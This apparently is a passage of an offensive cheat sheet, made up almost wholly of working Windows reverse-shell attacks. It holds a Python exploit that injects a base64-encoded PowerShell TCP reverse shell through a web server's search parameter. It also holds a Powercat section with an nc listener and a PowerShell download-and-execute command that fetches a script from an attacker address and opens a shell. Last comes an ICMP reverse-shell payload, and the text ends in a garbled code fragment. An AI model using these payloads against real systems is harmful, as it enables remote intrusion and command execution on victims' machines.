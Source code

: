 ```python
payload = "$client = New-Object System.Net.Sockets.TCPClient('"+LHOST+"',"+LPORT+"); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();"

print(payload+'\n')

b64enc_command = b64encode(payload.encode('UTF-16LE')).replace('+','%2b')

url = "http://"+RHOST+":"+RPORT+"/?search=%00{.exec%7CC:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe%20-EncodedCommand%20"+b64enc_command+".}"

print(url)
response = urllib2.urlopen(url)
print("\nSTATUS: "+str(response.getcode()))

```

#### Powercat

Link

```
https://github.com/besimorhino/powercat
```

Fire up the listener

```bash
nc -lvp 4545
```

From the target machine execute the below

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ypurip/powercat.ps1');powercat -c yourip -p 4545 -e cmd"
```

#### ICMP Reverse shell payload

You can use the below ICMP powershell payload if you can't get a shell through TCP. Ideally this payload is delivered by assigning it to a URL parameter.

```powershell
$ip = '10.10.14.3'; $id = '1000'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment=$true; function s($b) { $ic.Send($ip,5000,([text.encoding]::ASCII).GetBytes($b),$po) }; function p { -join($id,'[P$] ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ') }; while ($true) { $r = s(p); if (!$r.Buffer) { continue; }; $rs = ([text.encoding]::ASCII).GetString($r.Buffer);  if ($rs.Substring(0,8) -ne $id) { exit }; try { $rt = (iex -Command $rs.Substring(8) | Out-String); } catch { $rt = ($_.Exception|out-string) }; $i=0; while ($i -lt $rt.length-110) { s(-join($id,$rt.Substring($i,110))); $i -= -110; }; s(-join($id,$rt.Substring($i))); }
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"